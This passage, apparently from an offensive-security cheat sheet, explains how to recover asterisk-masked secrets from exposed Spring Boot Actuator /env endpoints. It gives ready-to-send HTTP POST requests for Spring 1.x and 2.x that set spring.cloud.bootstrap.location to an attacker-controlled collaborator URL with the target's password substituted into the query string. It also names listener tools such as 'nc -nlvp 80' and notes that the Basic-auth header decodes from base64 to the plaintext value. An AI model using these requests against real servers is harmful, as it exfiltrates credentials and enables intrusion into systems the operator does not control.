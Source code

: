 ```http
Authorization: Basic dmFsdWU6MTIzNDU2
```

Decode the `dmFsdWU6MTIzNDU2` part of it using base64 to obtain a similar plaintext value `value:123456`, where `123456` is the plaintext of the attribute value before desensitization of the target asterisk*.

### Obtain the Plaintext of the Password Desensitized by the Asterisk (method 3)

When accessing the `/env` interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:

- `/envTrigger` the target to initiate any http request to the specified address on the external network by setting the attribute through `POST`.
- The target can request the attacker's server (the request can go out of the Internet).

#### Steps to use:

- Referring to what was proposed by _UUUUnotfound_, you can use placeholders to bring out data in the URL path when the target sends an external http request

1. Find the property name you want to get
   - GET requests the `/env` or `/actuator/envinterface` of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

2. Set up a listener for HTTP requests
   - Listen to port 80 on the external network server controlled by yourself. It can be your Burp collaborator, interact.sh, a classic `nc -nlvp 80` or `httpdump :80` ([httpdump on Github](https://github.com/luastan/httpdump))

3. Trigger an outgoing http request
   - Using the **spring.cloud.bootstrap.location** method ( also applicable to the case where there are special URL characters in the plaintext data):

**spring 1.x**
```http
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://{{ collaborator your.burpcollaborator.net }}/?s=${{{ attribute security.user.password }}}
```

**spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://{{ collaborator your.burpcollaborator.net }}/?s={{{ attribute security.user.password }}}"}
```
